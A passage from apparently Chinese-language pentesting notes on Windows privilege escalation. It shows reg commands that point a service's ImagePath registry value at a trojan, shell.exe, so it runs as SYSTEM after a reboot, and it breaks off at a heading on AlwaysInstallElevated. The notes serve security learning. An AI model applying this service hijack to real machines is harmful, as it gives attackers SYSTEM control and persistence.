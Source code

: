 ```
查询该服务的 imagepath值
reg query HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest /v imagepath
```

![image-20241015152150229](操作系统提权/image-20241015152150229.png)	

```
将木马文件shell.exe放到桌面上,然后修改服务的注册表信息，修改服务的路径，让其执行恶意代码。
reg add "HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest" /t REG_EXPAND_SZ /v ImagePath /d "C:\USERS\test\Desktop\shell.exe" /f
```

![image-20241015152351924](操作系统提权/image-20241015152351924.png)	

```
查询是否替换成功
reg query HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest /v imagepath
```

![image-20241015152447599](操作系统提权/image-20241015152447599.png)	

```
这个时候apache是没有权限启动服务的，需要管理员重启电脑.
当重启电脑后，获得system权限。
```

![image-20241015152600472](操作系统提权/image-20241015152600472.png)	

### 注册表键AlwaysInstall提权
